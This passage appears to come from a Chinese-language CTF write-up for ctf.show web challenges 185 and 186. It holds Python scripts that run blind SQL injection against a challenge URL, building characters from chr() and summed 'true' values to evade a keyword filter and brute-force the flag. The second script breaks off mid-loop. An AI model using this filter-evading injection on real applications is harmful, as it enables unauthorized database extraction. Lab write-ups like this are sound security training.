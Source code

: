 ```cobol
        return num
 
def createStrNum(c):
    str=''
    str += 'chr('+createNum(ord(c[0]))+')'
    for i in c[1:]:
        str +=',chr(' + createNum(ord(i)) + ')'
    return str
 
uuid = string.ascii_lowercase + string.digits + "-{}"
 
for i in range(1,50):
    for j in uuid:
        payload1 =payload.format(createStrNum(flag+j+"%"))
        # print(payload1)
        data = {
            'tableName':payload1
        }
        re = requests.post(url=url,data=data)
        if "$user_count = 0;" not in re.text:
            flag += j
            print(flag)
            if j == '}':
                exit()
            break
```

这个题目确实南 需要好好看

## web186

发现过滤了无关紧要的东西 我们上一题的payload直接打就行了

```cobol
import string
 
import requests
 
url = 'http://1ca9c268-b33b-48d1-9f3a-1d8c9b507696.challenge.ctf.show/select-waf.php'
 
payload = 'ctfshow_user group by pass having pass like(concat({}))'
 
flag ='ctfshow{'
 
def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n-1):
            num+="+true"
        return num
 
def createStrNum(c):
    str=''
    str += 'chr('+createNum(ord(c[0]))+')'
    for i in c[1:]:
        str +=',chr(' + createNum(ord(i)) + ')'
    return str
 
uuid = string.ascii_lowercase + string.digits + "-{}"
 
for i in range(1,50):
    for j in uuid:
```